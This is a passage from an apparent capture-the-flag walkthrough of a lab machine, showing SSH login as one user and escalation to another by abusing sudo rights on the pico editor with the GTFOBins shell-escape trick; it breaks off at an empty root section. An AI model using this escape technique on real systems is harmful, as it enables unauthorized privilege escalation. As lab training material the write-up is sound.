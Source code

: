 ## User escalation

### User1

Now we have first user, now lets jump in to ssh : 
```bat
ssh harry@10.10.185.66

harry@hogwartz-castle:~$ id
uid=1001(harry) gid=1001(harry) groups=1001(harry)
harry@hogwartz-castle:~$ ls
user1.txt
harry@hogwartz-castle:~$ cat user1.txt 
RME{t----------------------------------c}
harry@hogwartz-castle:~$ 
```
### User2

now lets check privilage of harry
```
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry: 
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
harry@hogwartz-castle:~$ 
```
Then check /usr/bin/pico and its a nano, now we can exploit it to user hermonine and use gtfobins [here](https://gtfobins.github.io/gtfobins/nano/#sudo)
```
sudo -u hermonine /usr/bin/pico
^R^X
reset; sh 1>&0 2>&0
```
here the shell condition is not good but it doesn't matter and we can still use it
```
$ cd
sh: 6: cd: can't cd to /home/harry
$ bash -i               
bash: /home/harry/.bashrc: Permission denied
hermonine@hogwartz-castle:~$ export TERM=xterm
hermonine@hogwartz-castle:~$ cd /home/hermonine/
hermonine@hogwartz-castle:/home/hermonine$ ls
user2.txt
hermonine@hogwartz-castle:/home/hermonine$ cat user2.txt 
RME{p--------------------------------------6}
hermonine@hogwartz-castle:/home/hermonine$ id
uid=1002(hermonine) gid=1002(hermonine) groups=1002(hermonine)
hermonine@hogwartz-castle:/home/hermonine$
```
### Exploit Root
